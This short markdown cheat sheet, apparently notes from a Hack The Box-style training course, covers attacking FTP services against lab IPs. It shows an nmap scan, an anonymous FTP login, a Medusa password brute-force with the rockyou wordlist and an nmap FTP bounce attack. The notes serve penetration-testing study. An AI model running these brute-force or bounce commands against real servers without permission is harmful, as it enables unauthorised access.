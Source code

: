 Enumeration
```shell
sudo nmap -sC -sV -p 21 192.168.2.142
```

Misconfigurations (Anonymous Authentication)
```shell
nijatmansimov@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

Brute Forcing with Medusa
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

The Nmap -b flag can be used to perform an FTP bounce attack:
```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```













